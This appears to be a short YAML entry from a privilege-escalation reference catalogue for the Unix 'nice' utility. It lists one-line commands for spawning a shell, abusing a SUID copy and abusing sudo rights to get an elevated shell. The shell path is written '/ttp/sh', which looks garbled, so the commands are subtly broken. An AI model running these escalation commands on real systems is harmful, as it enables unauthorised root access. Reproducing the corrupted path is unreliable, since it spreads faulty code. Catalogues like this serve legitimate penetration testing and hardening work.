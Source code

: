 ```yaml
---
functions:
  shell:
    - code: nice /ttp/sh
  suid:
    - code: ./nice /ttp/sh -p
  sudo:
    - code: sudo nice /ttp/sh
---
```

